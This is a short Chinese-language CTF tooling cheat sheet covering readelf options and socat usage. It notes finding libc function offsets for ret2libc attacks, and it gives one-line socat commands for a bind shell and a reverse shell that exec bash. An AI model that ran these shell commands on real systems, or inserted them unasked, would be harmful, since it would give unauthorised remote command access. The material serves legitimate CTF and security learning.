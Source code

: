 #### 重要参数
```text
-h --file-header       Display the ELF file header
-e --headers           Equivalent to: -h -l -S
-l --program-headers   Display the program headers
-S --section-headers   Display the sections' header
-s --syms              Display the symbol table
-r --relocs            Display the relocations (if present)
-d --dynamic           Display the dynamic section (if present)
```
另外 `-w` 选项表示 DWARF2 调试信息。

#### 常见用法
查找库中函数的偏移量，常用于**ret2lib**：
```shell
$ readelf -s [path/to/library.so] | grep [function_name]
```


## socat
**socat** 是 netcat 的加强版，CTF 中经常需要使用使用它连接服务器。

#### 安装
```shell
$ yaourt -S socat
```

#### 常见用法
```shell
$ socat [options] <address> <address>
```

连接远程端口
```shell
$ socat - TCP:localhost:80
```

监听端口
```shell
$ socat TCP-LISTEN:700 -
```

正向 shell
```shell
$ socat TCP-LISTEN:700 EXEC:/bin/bash
```

反弹 shell
```shell
$ socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

将本地 80 端口转发到远程的 80 端口
```shell
$ socat TCP-LISTEN:80,fork TCP:www.domain.org:80
```
